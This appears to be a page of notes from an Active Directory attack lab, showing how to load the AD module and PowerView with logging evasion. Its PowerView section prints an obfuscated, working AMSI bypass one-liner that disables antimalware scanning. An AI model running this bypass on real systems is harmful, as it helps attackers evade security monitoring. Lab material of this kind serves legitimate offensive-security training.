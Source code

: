 # LOAD NECESSARY POWERSHELL SCRIPTS

<p>Let's start a PowerShell session using Invishell to avoid verbose logging. We will use Microsoft's AD 
Module for solving the tasks of this Hands-On:</p>

<p>The scripts can be loaded into memory from on disk as shown below or from a Downlaod and execute cradel</p>

## AD Module
```PowerShell
PS C:\Users\studentuserx>cd C:\AD\Tools\

PS C:\AD\Tools> Import-Module C:\AD\Tools\ADModule-master\Microsoft.ActiveDirectory.Management.dll

PS C:\AD\Tools> Import-Module C:\AD\Tools\ADModule-master\ActiveDirectory\ActiveDirectory.psd1
```

## Powerview
```PowerShell
PS C:\Users\studentuserx>cd C:\AD\Tools\

PS C:\AD\Tools>powershell

PS C:\AD\Tools>
S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x')) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ;(Get-varI`A`BLE ( ('1Q'+'2U')+'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile') ),( "{2}{4}{0}{1}{3}" -f('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,' ))."sE`T`VaLUE"(${n`ULl},${t`RuE} )

PS C:\AD\Tools>. C:\AD\Tools\PowerView.ps1

```
